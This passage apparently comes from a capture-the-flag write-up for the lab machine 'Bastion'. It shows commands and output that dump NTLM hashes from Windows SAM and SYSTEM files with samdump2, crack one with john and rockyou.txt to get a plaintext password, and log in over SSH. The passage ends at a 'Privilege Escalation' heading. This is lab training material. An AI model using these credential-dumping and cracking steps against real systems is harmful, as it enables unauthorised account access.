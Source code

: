 
The SAM and SYSTEM file exists.

The SAM file is a Security Account Manager (SAM) is a database stored as a registry file in Windows NT, Windows 2000, and later versions of Microsoft Windows. It stores user passwords in a hashed (secure, encrypted) format. The SYSTEM file is used to protect the SAM file, it holds the key to decrypt the contents of the SAM file.

To dump the hashes of the passwords possibly stored in these files we can use the samdump2 tool.

```
$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

First we have to pass as argument the SYSTEM file and then SAM.

The first 2 users are disabled, let's see if we can break the NTLM hash of user L4mpje with john.

```
$ john --format=NT --wordlist=rockyou.txt NTLM-hash 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
No password hashes left to crack (see FAQ)

$ john --show --format=NT NTLM-hash                
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
```

The password of the user L4mpje is bureaulampje, let's see if we can use it to connect via SSH.

```
$ ssh L4mpje@10.10.10.134
```


```
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje                                                                                                                  

l4mpje@BASTION C:\Users\L4mpje>
```
<br>
# Privilege Escalation
